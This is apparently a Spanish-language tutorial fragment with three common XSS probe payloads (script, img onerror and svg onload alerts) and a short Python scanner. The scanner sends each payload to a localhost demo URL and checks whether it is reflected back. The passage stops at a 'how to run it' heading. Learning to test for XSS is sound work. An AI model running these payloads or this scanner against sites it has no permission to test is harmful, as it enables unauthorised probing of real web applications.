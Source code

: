 ### 🧪 Payloads XSS comunes

```html
<script>
  alert("XSS");
</script>
<img src=x onerror=alert('XSS')> "><svg/onload=alert(1)>
```

---

### 🧾 Código Python: `xss_scanner.py`

```python
import requests
from bs4 import BeautifulSoup
import urllib.parse

# Payloads XSS comunes
payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "\"><svg/onload=alert(1)>"
]

# URL vulnerable con parámetro
base_url = "http://localhost/xss-demo.php?q="

def test_xss(url, payloads):
    for payload in payloads:
        full_url = url + urllib.parse.quote(payload)
        print(f"\n🔍 Probando: {full_url}")

        try:
            response = requests.get(full_url, timeout=5)
            html = response.text

            if payload in html:
                print("🚨 ¡Vulnerabilidad XSS detectada!")
                print(f"Payload: {payload}")
            else:
                print("✅ No se reflejó el payload.")
        except Exception as e:
            print(f"❌ Error al conectar: {e}")

if __name__ == "__main__":
    test_xss(base_url, payloads)
```

---

### 🚀 ¿Cómo se ejecuta?
